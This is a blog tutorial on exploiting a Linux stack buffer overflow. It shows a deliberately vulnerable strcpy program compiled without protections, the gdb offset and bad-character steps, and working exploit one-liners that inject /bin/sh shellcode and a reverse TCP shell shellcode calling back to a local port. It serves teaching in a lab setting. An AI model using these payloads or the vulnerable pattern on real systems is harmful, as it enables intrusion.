# BOF - part 1. Linux stack smashing

﷽

Hello, cybersecurity enthusiasts and white hackers!           

{:class="img-responsive"}          

### buffer overflow

A stack buffer overflow occurs when a program writes more data to the stack than has been allocated to the buffer. This leads to overwriting of possibly important redundant data in the stack and causes an abnormal termination or execution by arbitrary overwriting of the instruction pointer `eip` and, therefore, allows the execution of the program flow to be redirected.     

### vulnerable program example      

Before compile any vulnerable code, let's see what needs for successfully exploitation. If you reboot your machine during the exploitation, you will have to disable ASLR:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
after every reboot.          

Let's go to consider vulnerable program (`vuln.c`):

```cpp
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int overflow(char *input) {
  char buf[256];
  strcpy(buf, input);
  return 1;
}

int main(int argc, char *argv[]) {
  overflow(argv[1]);
  printf("meow =^..^=\n");
  return 1;
}

```

It is not so difficult to see that the above program can be hacked by a buffer overflow.     
This program is unsecure. Let's analysze it. Starting from `main()` function. It calls the `overflow` function. The `overflow` declare a variable that is `256` bytes wide. It copies the string from user input (including the null character) to this variable.     

Functions like `read()`, `gets()`, `strcpy()` do not check the length of the input strings relative to the size of the destination buffer - exactly the condition we are looking to exploit.          

Let's compile the program:         
```bash
gcc -z execstack -fno-stack-protector -m32 -o vuln vuln.c
```

{:class="img-responsive"}          

> `-fno-stack-protector` disables the compiler's protection against Stack Smashing attacks, which are one of the scenarios for exploiting a buffer overflow vulnerability. This kind of protection is usually understood to mean a small expansion of the stack space to be placed immediately before the return address of a generated integer (guard variable or canary by analogy with the use of random firedamp in mines), not known to the intruder. If this value has changed before returning from the function, it means that there is a high probability that there was interference from the outside, and the return address was damaged / replaced. Therefore, it is necessary to stop the execution of the program. The `-z execstack` keyword means that instructions located on the stack can be executed. `-m32` - explicitly emphasizes that we want a 32-bit executable.        

The program requires manual input of the characters. First of all, we can try entry few characters only for checking correctness. After that let's try to entry a lot of characters for crashing:

```bash
./vuln meowmeow
./vuln woofwoof
./vuln $(python -c 'print("A" * 400)')
```

{:class="img-responsive"}          

Let's go to debug via gdb:

```bash
gdb -q ./vuln
gdb-peda$ r $(python3 -c 'print("A" * 400)')
```

{:class="img-responsive"}          
{:class="img-responsive"}          

"A" in hex are `0x41`. As you can see due to supplying multiple "A"'s into the program buffer, they overflowed the stack and ended up in the `eip` register. The memory buffer has been filled and exceed. As we can see in the code above the buffer has a 256 bytes size. Now we need to find the offset for overwriting the `eip` register.      

There are various methods to calculate the offset from the beginning of the buffer to the `eip`. There are the `pattern_create.rb` and `pattern_offset.rb` tools shipped with `metasploit`. Also, pattern create is one of the PEDA utilities. They both work in the same way - creating a pattern of a unique string of a given length.     

```bash
gdb-peda$ pattern create 400
gdb-peda$ r <pattern>
```

{:class="img-responsive"}          

Based on the `eip` value (`0x41332541`), it's also possible to identify the correct offset to the `eip`:

```bash
gdb-peda$ pattern offset 0x41332541
```

{:class="img-responsive"}          

Let's use this value for create new input (which will serve as the base for our future payload) and run vulnerable binary with it:

```bash
gdb -q ./vuln
gdb-peda$ r $(python3 -c 'print("A" * 268 + "B" * 4)')
```

{:class="img-responsive"}          

Perfect! The `EIP` was overwritten with `BBBB` (`0x42424242`), so we've gained control over `EIP`.           

### identification bad chars       

In order to run, the shellcode can't contain characters that will be interpreted incorrectly by the program you are exploiting, such as newline, for example. These chars also known as ***bad characters***, like this:
- `\x00` - Null Byte          
- `\x0A` - Line Feed             
- `\x0D` - Carriage Return               
- `\xFF` - Form Feed            

The easiest way to determine which of the characters are bad for our shellcode is to run them in it. We need list of all characters:
`\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`

Then, set breakpoint in function `overflow`:

```bash
gdb-peda$ b overflow
```

{:class="img-responsive"}          

We can execute the characters and look at the memory:

```bash
gdb-peda$ r $(python -c 'print "\x41" * (272 - 256 - 4) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" * 25 + "\x42" * 4')
```

{:class="img-responsive"}          

After we have executed our payload with the bad characters and reached the breakpoint, we can look at the stack:

```bash
gdb-peda$ x/1000xb $esp + 500
```

{:class="img-responsive"}          

We see where our `\x41`'s ends, and the bad characters begins. But if we look closely at it, we will see that it starts with `\x01` instead of `\x00`. The ASCII character `\x00` is left out because it's a null byte. Then, we note this character, remove it and adjust the number of `\x41`. Run again and following the dump to find the next bad character. This process must be repeated until all characters that could interrupt the flow are removed. After that we will have the list of chars that need to be excluded from our shellcode.    

### shellcode

Let's now try to exploit the buffer overflow by adding the final part – the shellcode. Since this program is compiled without NX or stack canaries, we can write our shellcode directly on the stack and return to it.       

I'll be using my shellcode from one of my posts [about linux shellcoding](tutorial/2021/10/09/linux-shellcoding-1.html) which is spawn shell to my ubuntu machine:

{:class="img-responsive"}          

```python
#!/usr/bin/python
# exploit.py - final payload with spawn /bin/sh shellcode
shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"
padding = "\x41" * (272-64-len(shellcode)-4)
nop = "\x90" * 64
eip = "\x42\x42\x42\x42"
print padding + nop + shellcode + eip

```

In this case, my shellcode length is `25` bytes.

Often it can be useful to insert some no operation instruction (NOPs) before our shellcode begins so that it can be executed cleanly. NOPs are instructions in memory that just says look for the instructions next to me on the stack. Let us briefly summarize what we need for this:      
1. we need total `268 + 4 = 272` bytes to get `eip`.                
2. we can use additional `64` bytes of NOPs.          
3. minimum `25` bytes for our shellcode.       

{:class="img-responsive"}          

Now we can try to find out how much space we have available to insert our shellcode. For that we are going to head back into GDB and run the following command:        

```bash
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 64 - 25 - 4) + "\x90" * 64 + "\x44" * 25 + "\x42" * 4)')
```

But firstly, let us have a look at the whole main function. Because if we execute it now, the program will crash without giving us the possibility to follow what happens in the memory. So, let's go to set breakpoint at the `overflow` function firstly:     
```bash
gdb-peda$ b overflow
```

{:class="img-responsive"}          

Then, we can run:

```bash
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 64 - 25 - 4) + "\x90" * 64 + "\x44" * 25 + "\x42" * 4)')
```

{:class="img-responsive"}      

And then we will look for the place where our NOPs start and end:
```bash
gdb-peda$ x/1000xb $esp + 500
```

{:class="img-responsive"}    

Here, we now have to choose an address to which we refer the `eip` and which reads and executes one byte after the other starting at this address:

{:class="img-responsive"}    

In this example, we take the address `0xffffd3f4`:                     

{:class="img-responsive"}    

After selecting memory, we replace our `\x42\x42\x42\x42` with `\xf4\xd4\xff\xff` (input of the address is entered backward!):        

```bash
./vuln $(python -c 'print "\x41" * (272-64-25-4) + "\x90" * 64 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80" + "\xf4\xd3\xff\xff"')
```

or via python script (`exploit.py`):

```python
#!/usr/bin/python
# exploit.py - final payload with spawn /bin/sh shellcode
shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"
padding = "\x41" * (272-64-len(shellcode)-4)
nop = "\x90" * 64
eip = "\xf4\xd3\xff\xff"
print padding + nop + shellcode + eip
```

```bash
./vuln $(python exploit.py)
```

{:class="img-responsive"}    

As you can see, we put our shellcode which is `25` bytes in the middle of NOPs. And everything work perfectly, we are spawn a shell.

### reverse TCP shell

As an experiment, I tried to put another shellcode from my [post](/tutorial/2021/10/17/linux-shellcoding-2.html), reverse TCP shell on `127.1.1.1:4444`. Let's go to repeat the same steps but length of NOPs are larger - `96` bytes, because my shellcode is `74` bytes.    

Run my python script:
```bash
python super_shellcode.py -l 127.1.1.1 -p 4444
```

{:class="img-responsive"}    

Then, find address for "jumping":      

```bash
gdb -q ./vuln
gdb-peda$ b overflow
gdb-peda$ r $(python -c 'print ("\x41" * (272 - 96 - 74 - 4) + "\x90" * 96 + "\x44" * 74 + "\x42" * 4)')
gdb-peda$ x/1000xb $esp+500
```

{:class="img-responsive"}    

In this example, we take the address `0xffffd3a4`.        

Then, finally, prepare listener on port `4444` and run:           

```bash
./vuln $(python -c 'print "\x41" * (272-96-74-4) + "\x90" * 96 + "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\xa4\xd3\xff\xff"')
```

{:class="img-responsive"}    

So, everything is worked perfectly :)

> This is a practical case for educational purposes only.      

[Smashing The Stack For Fun And Profit by Aleph One](http://phrack.org/archives/issues/49/14.txt) - classic.
[Smashing The Stack for Fun and Profit in PDF](https://inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf)                                                     
[owasp buffer overflow attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)           
[exploit-db tutorial](https://www.exploit-db.com/docs/english/28475-linux-stack-based-buffer-overflows.pdf)                
[buffer overflow attack, brilliant video](https://www.youtube.com/watch?v=1S0aBV-Waeo)         
[my post about linux shellcoding part 1](https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html)           
[my post about linux shellcoding part 2](https://cocomelonc.github.io/tutorial/2021/10/17/linux-shellcoding-2.html)           
[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)            
[source code in Github](https://github.com/cocomelonc/meow/tree/master/2021-10-20-buffer-overflow-1)         

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*
